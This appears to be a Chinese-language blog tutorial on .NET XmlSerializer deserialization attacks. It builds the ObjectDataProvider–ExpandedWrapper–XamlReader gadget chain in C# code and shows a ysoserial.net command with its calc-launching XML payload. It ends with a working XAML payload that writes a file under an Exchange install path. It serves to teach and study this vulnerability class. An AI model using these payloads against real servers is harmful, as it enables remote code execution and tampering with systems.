









# 环境搭建

这次的反序列化需要`System.Windows.Data`，直接添加`System.Windows`这个reference是找不到的，需要在csproj文件中添加如下引用

```
<Reference Include="PresentationFramework" />
```

# XML序列化与反序列化

.NET 框架中 System.Xml.Serialization 命名空间下的XmlSerializer类可以将 XML 文档绑定到 .NET 类的实例，有一点需要注意它只能把对象的公共属性和公共字段转换为XML元素或属性，被序列化的数据可以是数据、字段、数组、以及XmlElement和XmlAttribute对象格式的内嵌XML

XmlElement指定属性要序列化为元素，XmlAttribute指定属性要序列化为特性，XmlRoot特性指定类要序列化为根元素；通过特性类型的属性、影响要生成的名称、名称空间和类型。

XmlSerializer.Serialize方法重载可以接受Stream、TextWrite、XmlWrite类

通过下面的demo就可以明确什么可以序列化，什么不能了，具体序列化到什么地方

```C#
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Xml.Serialization;

namespace XmlDeserialization
{
    [XmlRoot]
    public class Person
    {
        [XmlElement]
        public int Age { get; set; }
        // [XmlElement]
        public string Name { get; set; }
        [XmlArray("Items")]
        public Order[] OrderedItems;
        [XmlAttribute]
        public string ClassName { get; set; }
        [XmlElement]
        private string sex { get; set; }
        public void SetSex(String value)
        {
            sex = value;
        }
    }

    public class Order
    {
        public int OrderID;
    }

    class Program
    {
        static void Main(string[] args)
        {
            Person p = new Person();
            p.Name = "jack";
            p.Age = 12;
            Order order = new Order();
            order.OrderID = 123;
            Order order1 = new Order();
            order.OrderID = 456;
            Order[] orders = new Order[] { order, order1 };
            p.OrderedItems = orders;
            p.ClassName = "classnameTest";
            p.SetSex("Man");


            XmlSerializer xmlSerializer = new XmlSerializer(typeof(Person));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            // 序列化
            xmlSerializer.Serialize(writer, p);

            memoryStream.Position = 0;

            // 输出xml
            Console.WriteLine(Encoding.UTF8.GetString(memoryStream.ToArray()));
            // 反序列化
            Person p1 = (Person)xmlSerializer.Deserialize(memoryStream);
            Console.WriteLine(p1.Name);
            Console.ReadKey();
        }
    }
}
```



可以通过`[XmlArray("Items")]`设置数组节点的名字，`[XmlElement]`则是在主节点处加上的Attribute，以为截图没截完，最后在反序列化后，获取到了Name的值，并且序列化中并没有sex的值

可以看到在序列化的过程中，需要创建XmlSerializer对象，在`new XmlSerializer(typeof(Person))`的时候需要将对象类型的type传入，有几种方式获取Type

```
XmlSerializer xmlSerializer = new XmlSerializer(typeof(Person));// typeof()
XmlSerializer xmlSerializer1 = new XmlSerializer(p.GetType());  // 对象的GetType()方法
XmlSerializer xmlSerializer2 = new XmlSerializer(Type.GetType("XmlDeserialization.Person")); //使用命名空间加类名
```

# 反序列化攻击链

## 命令执行

在C#中，采用Process类来执行相关命令

```C#
using System;
using System.Diagnostics;

class Program
{
    static void Main()
    {
        // 创建进程对象
        Process process = new Process();

        // 设置要执行的命令
        process.StartInfo.FileName = "cmd.exe";
        process.StartInfo.Arguments = "/c calc"; // 例如，执行dir命令

        // 启动进程
        process.Start();
        process.WaitForExit(); // 等待进程执行完成
    }
}
```



有点看起来有点类似于Java的ProcessBuilder的start方法等，不过我们进入这个程序集看



这个里面还有很多个Start的静态方法可以直接传入内容，比如说可执行文件名，还有参数，最后也可以直接调用到`process.Start()`

所以可以直接直接这样执行命令

```
Process.Start("cmd.exe", "/c calc");
```

## ObjectDataProvider

ObjectDataProvider类，它位于System.Windows.Data命名空间下，可以调用任意被引用类中的方法，提供成员ObjectInstance用类似实例化类、成员MethodName调用指定类型的方法的名称、成员MethodParameters表示传递给方法的参数

有点类似于Java中的反射，具体调用Process的方法执行命令的代码如下

```C#
class Program
{
    static void Main(string[] args)
    {
        ObjectDataProvider objectDataProvider = new ObjectDataProvider();
        objectDataProvider.MethodName = "Start";
        objectDataProvider.MethodParameters.Add("cmd.exe");
        objectDataProvider.MethodParameters.Add("/c calc");
        objectDataProvider.ObjectInstance = new Process();
        Console.ReadKey();
    }
}
```



如果要看调用分析可以参考https://www.cnblogs.com/zpchcbd/p/17180208.html#/

## ExpandedWrapper

现在已经知道了通过ObjectDataProvider可以调用到process来执行命令了，那又怎么触发这个ObjectDataProvider呢，实际上就是使用XmlSerializer，那么我们就可以搭配反序列化了，首先来序列化一下

```c#
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Data;
using System.Xml.Serialization;

namespace XmlDeserialization
{
   
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            objectDataProvider.MethodName = "Start";
            objectDataProvider.MethodParameters.Add("cmd.exe");
            objectDataProvider.MethodParameters.Add("/c calc");
            objectDataProvider.ObjectInstance = new Process();
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(Object));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter textWriter = new StreamWriter(memoryStream);
            xmlSerializer.Serialize(textWriter, objectDataProvider);
        }
    }
}
```



在序列化之前调用了ObjectDataProvider弹出了计算器是正常的，都是序列化的时候却出错了，意思是ObjectDataProvider一个未知的类型，其实就是不能被序列化

这个使用就需要System.Data.Services.Internal.ExpandedWrapper类来解决这个问题了，它的作用就是扩展类的属性。

```
public sealed class ExpandedWrapper<TExpandedElement,TProperty0,TProperty1,TProperty2> : System.Data.Services.Internal.ExpandedWrapper<TExpandedElement>
```

- TExpandedElement，扩展元素的类型。
- TProperty0，要扩展的属性的类型。
- TProperty1，要扩展的属性的类型。
- TProperty2，要扩展的属性的类型

```
ExpandedWrapper<Process, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<Process, ObjectDataProvider>();
```

这样来将ObjectDataProvider类属性扩展到Process类属性

```
using System;
using System.Collections.Generic;
using System.Data.Services.Internal;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Data;
using System.Xml.Serialization;

namespace XmlDeserialization
{
   
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            ExpandedWrapper<Process, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<Process, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = objectDataProvider;
            expandedWrapper.ProjectedProperty0.MethodName = "Start";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("cmd.exe");
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("/c calc");
            expandedWrapper.ProjectedProperty0.ObjectInstance = new Process();
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(Object));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter textWriter = new StreamWriter(memoryStream);
            xmlSerializer.Serialize(textWriter, expandedWrapper);
        }
    }
}
```

还是出错了，原因是因为使用`ExpandedWrapper`去包装Process，是无法序列化的



所以要包装一个可以序列化的类，我们来自定义一个可以序列化的类，然后通过ObjectDataProvider来调用其中的恶意方法

```C#
using System;
using System.Collections.Generic;
using System.Data.Services.Internal;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Data;
using System.Xml.Serialization;

namespace XmlDeserialization
{
    public class EvilClass
    {
        public void evil(string cmd)
        {
            Process process = new Process();
            process.StartInfo.FileName = "cmd.exe";
            process.StartInfo.Arguments = "/c " + cmd;
            process.Start();
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            ExpandedWrapper<EvilClass, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<EvilClass, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = objectDataProvider;
            expandedWrapper.ProjectedProperty0.MethodName = "evil";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("calc");
            expandedWrapper.ProjectedProperty0.ObjectInstance = new EvilClass();
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(ExpandedWrapper<EvilClass, ObjectDataProvider>));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter textWriter = new StreamWriter(memoryStream);
            xmlSerializer.Serialize(textWriter, expandedWrapper);
            Console.WriteLine(Encoding.UTF8.GetString(memoryStream.ToArray()));
        }
    }
}
```



是可以正常序列化的

```
<?xml version="1.0" encoding="utf-8"?>                                                                                                           
<ExpandedWrapperOfEvilClassObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>                                                                                                                           
    <ObjectInstance xsi:type="EvilClass" />                                                                                                      
    <MethodName>evil</MethodName>                  
    <MethodParameters>                             
      <anyType xsi:type="xsd:string">calc</anyType>
    </MethodParameters>                            
  </ProjectedProperty0>                            
</ExpandedWrapperOfEvilClassObjectDataProvider>  
```

配合上反序列化，一共会弹出两次计算器，可以将断点断在Deserialize，关闭后查看效果

至于为什么反序列化的过程中会触发ObjectDataProvider，可以参考https://www.cnblogs.com/zpchcbd/p/17180208.html#/

## ResourceDictionary

在前面可以发现，Evil函数是我自定义的一个类的恶意方法，虽然我可以通过ExpandedWrapper包装ObjectDataProvider扩展其属性调用到任意方法了，但是要让这样一条链可以利用的话，有下面两种方法

- 第一种是找到一个类能够序列化，将其作为ExpandedWrapper的TExpandedElement，并且这个类还有Process的特性能够用来进行命令执行
- 第二种就是在原先的XmlSerializer->ObjectDataProvider->Process中找到一个跳板，最好是可以执行命令的

最后XmlSerializer链的解决方法就是第二种

ResourceDictionary又称资源字典，使用xaml语法，它本身支持这样去执行命令

```
<ResourceDictionary 
                    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
                    xmlns:b="clr-namespace:System;assembly=mscorlib" 
                    xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

1. xmlns:c 引用了System.Diagnostics命名空间起别名为c（Process全名为System.Diagnostics.Process）
2. d:Key="" 起别名为空，在xaml语法中，Key这个键值必须有。
3. ObjectType表示对象类型
4. d:Type 等同于typeof()
5. MethodName是ObjectDataProvider的属性，传递一个Start等于调用Start方法。
6. c:Process 等同于System.Diagnostics.Process

来解析一下这个xaml

```c#
class Program
{
    static void Main(string[] args)
    {
        string xaml = "<ResourceDictionary \n                    xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" \n                    xmlns:d=\"http://schemas.microsoft.com/winfx/2006/xaml\" \n                    xmlns:b=\"clr-namespace:System;assembly=mscorlib\" \n                    xmlns:c=\"clr-namespace:System.Diagnostics;assembly=system\">\n    <ObjectDataProvider d:Key=\"\" ObjectType=\"{d:Type c:Process}\" MethodName=\"Start\">\n        <ObjectDataProvider.MethodParameters>\n            <b:String>cmd</b:String>\n            <b:String>/c calc</b:String>\n        </ObjectDataProvider.MethodParameters>\n    </ObjectDataProvider>\n</ResourceDictionary>";
        XamlReader.Parse(xaml);
    }
}
```



到现在攻击链就一目了然了

1. 首先是通过XmlSerializer触发`ExpandedWrapper<XamlReader, ObjectDataProvider>`包装的ObjectDataProvider
2. 这个ObjectProvider的作用是调用XamlReader的parse方法解析xaml执行命令的payload
3. xaml的payload包装的是一个ObjectDataProvider调用Process来执行命令

现在来看yso生成的链子

```
ysoserial.exe -g ObjectDataProvider -c calc -f xmlserializer
```

```
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```

# 漏洞复现

```C#
using System.Data.Services.Internal;
using System.IO;
using System.Windows.Data;
using System.Windows.Markup;
using System.Xml.Serialization;

namespace XmlDeserialization
{
    class Program
    {
        static void Main(string[] args)
        {            
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<XamlReader, ObjectDataProvider>)); // XamlReader和ObjectDataProvider是可控的前提
            TextReader text_reader = new StreamReader("a.xml"); // 反序列化的数据也同样可控的前提
            xml.Deserialize(text_reader);
            text_reader.Close();
        }
    }
}
```

这里xml把yso生成的root节点去掉



写入文件的payload

```
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
    <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Parse</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                <![CDATA[
                    <ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
                        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 
                        xmlns:s="clr-namespace:System;assembly=mscorlib"
                        xmlns:w="clr-namespace:System.Web;assembly=System.Web">
                        <s:String x:Key="a" x:FactoryMethod="s:Environment.GetEnvironmentVariable" x:Arguments="ExchangeInstallPath"/>
                        <s:String x:Key="b" x:FactoryMethod="Concat">
                        <x:Arguments>
                            <StaticResource ResourceKey="a"/>
                            <s:String>\\aaaa\\bbb\\ccc\\test.txt</s:String>
                        </x:Arguments>
                        </s:String>
                        <ObjectDataProvider x:Key="x" ObjectType="{x:Type s:IO.File}" MethodName="AppendAllText">
                        <ObjectDataProvider.MethodParameters>
                            <StaticResource ResourceKey="b"/>                       
                            <s:String>iiiii</s:String>                       
                        </ObjectDataProvider.MethodParameters>
                        </ObjectDataProvider>
                        <ObjectDataProvider x:Key="c" ObjectInstance="{x:Static w:HttpContext.Current}" MethodName=""/>
                        <ObjectDataProvider x:Key="d" ObjectInstance="{StaticResource c}" MethodName="get_Response"/>
                        <ObjectDataProvider x:Key="e" ObjectInstance="{StaticResource d}" MethodName="End"/>
                    </ResourceDictionary>
                ]]>
            </anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```


参考链接：

https://www.cnblogs.com/zpchcbd/p/17180208.html#/

https://xz.aliyun.com/t/9592

https://www.cnblogs.com/nice0e3/p/16942833.html#/expandedwrapper

https://www.anquanke.com/post/id/172316#/h3-8
